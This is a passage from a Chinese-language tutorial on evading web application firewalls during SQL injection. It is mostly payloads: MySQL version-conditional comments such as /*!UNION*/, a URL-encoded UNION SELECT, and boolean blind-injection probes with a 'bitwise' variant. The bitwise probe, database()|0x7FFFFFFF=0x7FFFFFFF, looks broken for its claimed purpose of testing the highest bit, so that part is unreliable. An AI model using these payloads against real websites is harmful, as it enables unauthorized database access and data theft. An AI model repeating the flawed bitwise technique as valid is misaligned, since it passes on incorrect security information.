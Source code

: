   
**技术解析**  
：  
- • 
```
/*!50400*/
```

  
：MySQL版本条件注释（5.4.00+执行）  
  
- • 等价变形：
```
/*!UNION*/
```

  
、
```
/**_**/
```

  
  
**进阶技巧**  
：  

```
/*!u%6eion*/ /*!sel%65ct*/ 1,2,3 --  // URL编码内联
```

### 五、布尔盲注优化：位运算替代  
  
**传统方式（易被WAF识别）**  
：  

```
ascii(substr(database(),1,1))>128
```

  
**位运算绕过**  
：  

```
database()|0x7FFFFFFF=0x7FFFFFFF  // 判断最高位
```

  
**性能对比**  
：  
  